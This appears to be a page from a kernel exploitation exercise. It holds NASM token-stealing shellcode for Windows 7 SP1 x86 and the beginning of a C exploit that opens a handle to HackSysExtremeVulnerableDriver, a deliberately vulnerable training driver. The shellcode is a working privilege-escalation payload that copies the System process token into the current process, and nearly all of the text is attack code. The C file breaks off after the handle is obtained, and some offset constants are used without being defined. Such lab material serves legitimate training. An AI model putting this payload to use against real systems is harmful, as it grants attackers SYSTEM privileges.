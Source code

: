 ```nasm
	WIN7_SP1_FLINK_OFFSET		equ 0B8h	; nt!_EPROCESS.ActiveProcessLinks.Flink
	WIN7_SP1_KTHREAD_OFFSET		equ 124h	; nt!_KPCR.PcrbData.CurrentThread
	WIN7_SP1_EPROCESS_OFFSET	equ 050h	; nt!_KTHREAD.ApcStateProcess

global _start

_start:
	pushad
	xor eax, eax						; Set ZERO
	mov eax, [fs:eax + WIN7_SP1_KTHREAD_OFFSET]		; Get nt!_KPCR.PcrbData.CurrentThread
								; _KTHREAD is located at FS:[0x124]
	mov eax, [eax + WIN7_SP1_EPROCESS_OFFSET]		; Get nt!_KTHREAD.ApcState.Process
	mov ecx, eax						; Copy current thread's _EPROCESS structure

	mov edx, WIN7_SP1_SYS_PID				; System PID

	SearchSystemPID:
		mov eax, [eax + WIN7_SP1_FLINK_OFFSET] 		; Get nt!_EPROCESS.ActiveProcessLinks.Flink
		sub eax, WIN7_SP1_FLINK_OFFSET
		cmp [eax + WIN7_SP1_PID_OFFSET], edx		; Compare nt!_EPROCESS.UniqueProcessId with pid in edx
		jne SearchSystemPID

	mov edx, [eax + WIN7_SP1_TOKEN_OFFSET]			; Get System process nt!_EPROCESS.Token
	mov [ecx + WIN7_SP1_TOKEN_OFFSET], edx			; Replace nt!_EPROCESS.Token with System's Token

	popad

	xor eax, eax                                            ; Set NTSTATUS SUCCESS
	pop ebp
	ret 8
```

**exploit.c**

```cpp
#include <Windows.h>
#include <string.h>
#include <stdio.h>

#define IO_CODE 0x222003

const char kDevName[] = "\\\\.\\HackSysExtremeVulnerableDriver";

int main() {
	
	printf("[+] Calling CreateFileA() to obtain a handle to driver\n");
    HANDLE hDevice = CreateFileA(kDevName,
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        0,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Error - dailed to get file handle!\n");
        system("pause");
        return -1;
    }
    printf("[+] Successfully obtained a handle to the driver\n");
    
	DWORD bytesRetn;
```